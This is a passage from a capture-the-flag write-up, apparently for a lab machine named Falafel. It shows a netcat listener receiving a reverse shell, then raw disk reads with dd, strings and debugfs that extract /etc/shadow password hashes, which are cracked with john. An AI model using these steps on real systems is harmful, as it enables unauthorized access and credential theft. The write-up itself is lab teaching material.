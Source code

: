 ```

root@kali# nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.73] 60076
/bin/sh: 0: can't access tty; job control turned off
$

```

### Root shell - fail

In main disk, there’s what looks like the root line of an `/etc/shadow` file:

```

yossi@falafel:/dev/shm/.d$ dd if=/dev/sda1 bs=1024 | strings -a | grep root > strings
7339008+0 records in
7339008+0 records out
7515144192 bytes (7.5 GB, 7.0 GiB) copied, 394.058 s, 19.1 MB/s

yossi@falafel:/dev/shm/.d$ blockdev --getsize /dev/sda1
14678016

yossi@falafel:/dev/shm/.d$ dd if=/dev/sda1 bs=1024 | strings -a | grep root > strings
7339008+0 records in
7339008+0 records out
7515144192 bytes (7.5 GB, 7.0 GiB) copied, 394.058 s, 19.1 MB/s

yossi@falafel:/dev/shm/.d$ cat strings | grep "^root" | grep ":::" | sort | uniq
root:*:17379:0:99999:7:::
root:!:17497:0:99999:7:::
root:$6$1piR.vyE$147.7jQX3pd0twWI0S43cWqoldOrwOeezcMAwWG5zd5PD4SdvwfSq3B/bFVUeN5JGg9A4bQ7vi3xzmcCZOWlg.:17497:0:99999:7:::
root:$6$Jk54H2c2$dDTYx8vLD9IEqayacM0lnPBjDkB3git9Hzbdmg1wAiginiUfqZvIAnVROsmRGjj64y00CnmDtb/Tqoy5JB/ED/:17498:0:99999:7:::

yossi@falafel:/dev/shm/.d$ cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash

root@kali# cat unshadow
root:$6$Jk54H2c2$dDTYx8vLD9IEqayacM0lnPBjDkB3git9Hzbdmg1wAiginiUfqZvIAnVROsmRGjj64y00CnmDtb/Tqoy5JB/ED/:0:0:root:/root:/bin/bash
root:$6$1piR.vyE$147.7jQX3pd0twWI0S43cWqoldOrwOeezcMAwWG5zd5PD4SdvwfSq3B/bFVUeN5JGg9A4bQ7vi3xzmcCZOWlg.:0:0:root:/root:/bin/bash

```

`john` will crack the second one as `12345678`, but it doesn’t work for root. The first one doesn’t crack with rockyou.

Going back in with `debugfs` confirms that that first one is the root hash:

```

debugfs:  cat /etc/shadow
root:$6$Jk54H2c2$dDTYx8vLD9IEqayacM0lnPBjDkB3git9Hzbdmg1wAiginiUfqZvIAnVROsmRGjj64y00CnmDtb/Tqoy5JB/ED/:17498:0:99999:7:::
...
yossi:$6$3KIuOhDI$/LlvzMdSC1PpDfF6M1wveXSWdhIu9qtceH73oGJNHEt23YWFTEeWCzmhFZ5Up15eI81a2864ZTixEaE4mgoFl/:17545:0:99999:7:::
mysql:!:17497:0:99999:7:::
moshe:$6$yg7fMHWF$8WroIeYKl.dl97FHZ4D80TzSPqSsLrJAKCfZpXbC9lgZBATYKNGFe07gRkMxMCB7LYu22RkWfNr/SS1Aav9vz0:17497:0:99999:7:::

```
